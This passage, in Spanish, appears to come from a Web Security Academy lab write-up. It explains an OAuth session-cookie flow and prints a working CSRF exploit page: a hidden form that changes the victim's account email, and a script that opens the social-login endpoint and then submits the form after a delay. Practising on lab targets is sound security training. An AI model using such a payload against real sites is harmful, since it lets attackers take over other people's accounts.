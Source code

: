 > Al revisar el flujo de las cookies de sesión vemos que aún teniendo la sesión iniciada pasamos por un proceso de OAuth-based login. Primero se nos otorga una cookie de sesión para completar el proceso de OAuth, una vez autorizado se nos establece la cookie de sesión de la web de forma automática tras unos segundos de espera.

![](/img2/Pasted%20image%2020250802202730.png)

> Para que se emplee la cookie correcta, necesitamos hacer una petición a 'social-login' con una pausa de 5 segundos para que se emplee el redireccionamiento. Una vez haya terminado el proceso de OAuth se nos otorgará la cookie de sesión válida.

- Injection

```html
<form class="login-form" name="change-email-form" action="https://0a9f00d404c4631c802e08e600f900d2.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="hidden" name="email" value="csrf@csrf.com">
</form>

<script>
    window.open=("https://0a9f00d404c4631c802e08e600f900d2.web-security-academy.net/social-login/");
    setTimeout(updateEmail,5000);
    function updateEmail(){
        document.forms[0].submit();
    }

</script>
```

## CSRF con validación Referer si el header existe || CSRF where Referer validation depends on header being present

![](/img2/Pasted%20image%2020250802211212.png)
